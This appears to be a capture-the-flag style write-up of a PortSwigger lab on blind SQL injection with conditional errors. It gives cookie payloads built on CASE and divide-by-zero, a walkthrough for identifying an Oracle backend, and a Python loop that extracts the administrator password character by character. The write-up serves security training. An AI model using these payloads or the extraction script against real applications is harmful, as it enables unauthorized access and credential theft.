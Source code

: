 # Blind SQL injection with conditional errors

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

## Definition
In the preceding example, suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data. The preceding technique will not work, because injecting different Boolean conditions makes no difference to the application's responses.

In this situation, it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the CASE expression evaluates to 'a', which does not cause any error. With the second input, it evaluates to 1/0, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

**Confirming the SQL Injection**  
To confirm the SQL injection vulnerability on the application, it was tried in the first place to use the query mentioned in the definition section. But doing this, we got an HTTP error 500 using this technique when the expected behavior should be an HTTP Status 200. This response shows that something is wrong with the application and probably is vulnerable but some work must be done in the SQL payload.
  
![First attempt](images/image01.png)
  
The second attempt was to use a simple SQL statement, but it still kept returning an error:
  
![Simples SQL statement](images/image02.png)
  
Regarding this, I assumed the database running on the backend was PostgreSQL, but it wasn't. So the next step was to try to identify which database is running on it. PostgreSQL and MySQL had already been eliminated when the simple query was used in the previous step, so the next attempt was a small modification to the SQL statement aimed at Oracle and it worked as shown below:
  
![Oracle attempt](images/image03.png)

**Exploit**  
With this, a [python script](exploit.py) was created to inject a SQL statement that tries to guess the password character by character, position by position:

```python
# code snippet
PAYLOAD  = """
    ' AND (SELECT CASE WHEN SUBSTR(password, {pos}, 1) = '{char}' THEN TO_CHAR(1/0) ELSE '0' END FROM users WHERE username = '{username}') = '0
""".strip()

for char in string.printable:
    ...
    injection = PAYLOAD.format(pos = counter, char = char, username = USERNAME)
    
    cookies = {
        'TrackingId': f'{COOKIE_TRACK_ID}{injection}',
        'session': COOKIE_SESSION_ID
    }

    response = session.get(url = REMOTE_URL, cookies = cookies)
    
    if response.status_code == 500:
        password += char
        keep_running = True
        print(f'[{char}]', end = '', flush = True)
        break
```
  
![Exploit execution](images/image04.png)
  
![Login as administrator](images/image05.png)

## Key Words
> sql injection, blind, cookie, python, exploit